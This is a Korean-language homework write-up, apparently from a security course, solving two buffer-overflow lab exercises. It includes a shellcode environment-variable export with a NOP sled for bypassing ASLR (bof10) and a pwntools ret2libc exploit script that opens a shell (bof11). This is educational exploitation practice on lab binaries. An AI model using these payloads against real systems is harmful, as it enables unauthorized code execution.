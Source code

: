 # bof10,11 풀이
<details>
<summary>bof10 풀이</summary>
<div markdown="1">
<img src="../image/HW_9/a1.png">bof10. 코드

> SHELLOCDE 환경변수를 설정해서 하는 방법은 `bof8.c`와 매우 유사하다. 그러나 `ASLR ON`이 되어있다!! <BR>***ASLR이 ON이 되어 있으면 실행할 때마다 메모리의 주소가 바뀐다.***<BR>우선 `buf`의 크기가 8byte밖에 되지 않기때문에 **쉘코드**를 넣는 것이 불가능 하다.*(쉘코드의 크기는 27byte)* `bof8`에서 한 방법대로 `export`명령어를 사용하여 `SHELLCODE`환경 변수 값을 설정해준다. <BR>***이 프로그램은 32byte이기 때문에 32byte에 맞는 쉘코드를 넣어주어야 한다!!***

> 우선 SHELLCODE 환경변수를 설정했다.<BR>> ```export SHELLCODE=`python -c "print '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"` ```

> `buf`와 `return`주소의 차이를 구해야 하는데 진짜 너무 많이 했으므로 과정은 생략한다. *한가지 다른점은 이 프로그램은 32byte이기 때문에 `r`이 없다는 것이다.* <BR>이렇게 거리를 구하면 20이 나온다.

> `bof8`과 같이 `buf`에 `쓰레기값 20byte만큼 + 쉘코드의 환경변수 주소`를 넣으면 되지 않을까? 한번 해보았다.

> <img src="../image/HW_9/a2.png"><br>되지 않는다. 환경변수로 설정해준 `SHELLCODE`의 주소가 계속 바뀌는 것을 볼 수 있다. <BR>***ASLR이 ON되어 있기 때문이다!!***<BR>`SHELLCODE`의 주소가 계속 바뀌는데 다음에 어떻게 바뀔지 예측하고 `SHELLOCDE`의 환경변수 주소를 정확하게 찾는 것은 현실적으로 불가능하다.<BR>이 때 사용할 방법은 `NOP`이다. 

> `SHELLCODE` 환경변수를 설정해 줄때 쉘코드 앞에 여러개의 `NOP`를 붙여주면 어디선가 얻어 걸려서 쭈우우욱 타고 내려와 쉘코드를 만나게 된다. `NOP`를 얼마나 넣을지는 위 방법대로 계속 돌려봤을 때 `SHELLOCDE` 주소의 **최대-최소**를 구하면 되겠지만 매우 귀찮으므로 적절한 값을 찾아주는 방법을 사용한다.

> 너무 많은 숫자를 넣으면 다음과 같은 오류가 나타난다. <img src="../image/HW_9/a3.png"><br>여러번 실행해본 결과 130000이 적당했다. 쉘코드 앞에 `NOP`를 130000번 반복해주면 된다.

> ```export SHELLCODE=`python -c "print '\x90'*130000 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"` ```<BR>이 명령어를 통해 SHELLCODE 환경변수를 설정해준다. *(`\x90`이  NOP이다.)*<BR>

> <img src="../image/HW_9/a4.png"><br> 이후 다음과 같은 명령어를 통해 `./bof10`을 실행시켰더니 또 오류가 뜬다. 내가 `SHELLCODE`환경변수에 `NOP`를 **130000**번 반복해서 얻은 범위에 얻어 걸려야 하는데 운이 나빠 걸리지 않은 것이다. 그래서 계속 실행하면서 얻어걸릴 때 까지 반복해야 하므로 while문을 사용한다.

> <img src="../image/HW_9/a5.png"><br>다음과 같이 매우 편리한 방법이 있다. 그러면 계속 반복하다가 어느순간 쉘이 실행되면서 멈추게 되는데 바로 이때이다.<br><img src="../image/HW_9/a6.png"><br>**문제 해결 !**
</div>
</details>
<details>
<summary>bof11 풀이</summary>
<div markdown="1">
<img src="../image/HW_9/b1.png">bof11.c 코드

> 일단 `bof10`과 같이 `ASLR`이 **ON**되어있다. 그러나 환경변수 주소를 리턴해주는 코드가 없다. 지금까지 배웠던 방법 중 어떤 방법을 사용하면 될까? 바로 `bof9`에서 썼던 **RTL**이다. 

> **RTL**에 대한 자세한 설명은 [HW_8](https://github.com/JeongSeongMok/GBC_Security/tree/master/HW_8")의 [README.md](https://github.com/JeongSeongMok/GBC_Security/blob/master/HW_8/README.md)에 있다.<br>`RTL`을 사용하기 위해 구해야 할것은 다음과 같다.
> - `buf`와 `return`주소의 사이 거리 
> - `"pop rdi ; ret"`의 주소
> - `/bin/sh`의 주소
> - `system`함수의 주소

> 그러나 현재 이 파일은 `ASLR`이 **ON**되어 있으므로 **gdb**를 통해 주소값을 구하고 나와 실행시킬 때 해당 주소값을 넣으면 아무런 의미가 없다. 계속 메모리의 주소값이 바뀌기 때문이다. <br>그럼 아예 방법이 없는 것일까?<br>아니다. 코드를 잘보면 `printf("printf() address : %p\n)",print);`구문을 통해 `printf`함수의 주소 값을 출력해준다. 이 말은 즉, 오브젝트파일이 실행될 때 마다 바뀌는 `printf`의 주소값을 그때그때 알 수 있다는 것이다.

> `ASLR`을 통해 메모리의 주소는 계속 바뀌지만 함수간의 주소거리는 바뀌지 않는다는 점을 이용한다. 위에서 언급한 코드를 통해 `printf`주소의 바뀌는 값은 알 수 있기 때문에 **gdb** 디버깅을 통해 **위에서 언급한 필요한 주소들**과 `printf`함수의 주소의 거리를 구해놓는다면 메모리주소가 계속 바뀌어도 상관이 없다!

> 하나씩 차이를 구해보자. *(**gdb**실행 후 `r`을 통해 실행 할 때마다 주소가 바뀌기 때문에 1트안에 모든 것을 구하는 것이 편하다.)*
>> 1. `printf` <-> `system`<br><img src="../image/HW_9/b2.png"><br>**`system`주소 - `print`주소 = -66672**
>> 2. `printf` <-> `/bin/sh`<br><img src="../image/HW_9/b3.png"><br>**`/bin/sh`주소 - `print`주소 = 1275223**
>> 3. `printf` <-> `pop rdi ; ret`<br>`vmmap`과 `ROPgadget.py`를 이용하여 `pop rdi ; ret`의 주소를 얻는 방법은 [HW_8](https://github.com/JeongSeongMok/GBC_Security/tree/master/HW_8")의 [README.md](https://github.com/JeongSeongMok/GBC_Security/blob/master/HW_8/README.md)에 있다. 구해서 빼준 결과<br>**`pop rdi ; ret`주소 - `print`주소 = -214782**

> 그러나 또 문제가 있다. `./bof11`로 실행해서 출력값으로 `printf`의 주소 값을 보고나고 실행이 종료되면 다시 `printf`의 주소 값이 바뀌기 때문에 다음 `printf`의 주소값을 예측하는 것은 현실적으로 불가능하다. 그래서 **pwntools**라는 것을 이용한다.

> 아무이름의 python파일을 만들고 다음과 같은 코드를 입력한다.
```
from pwn import *

p = process('./bof11') // ./bof11 프로세스를 p에 저장

p.recvuntil('printf() address : ')
printf_addr = p.recvuntil('\n') // '\n'까지 입력된 출력된 값을 printf_add에 저장
printf_addr = int(printf_addr, 16) // 형 변환

// 위에서 구한 차이를 이용하여 system, /bin/sh, pop rdi ; ret의 위치를 printf의 주소를 이용해 접근한다.
sys_a = printf_addr + (-66672) 
binsh_a = printf_addr + (1275223)
poprdi_a = printf_addr + (-214782)

//exploit에 페이로드 저장
exploit = str.encode("x" * 18)
exploit += p64(poprdi_a) + p64(binsh_a) + p64(sys_a)
p.send(exploit)

p.interactive()
```

> `python3`를 이용하여 만든 python파일을 실행 시키면 다음과 같이 나온다.<br><img src="../image/HW_9/b5.png"><br>**성공!!**
</div>
</details>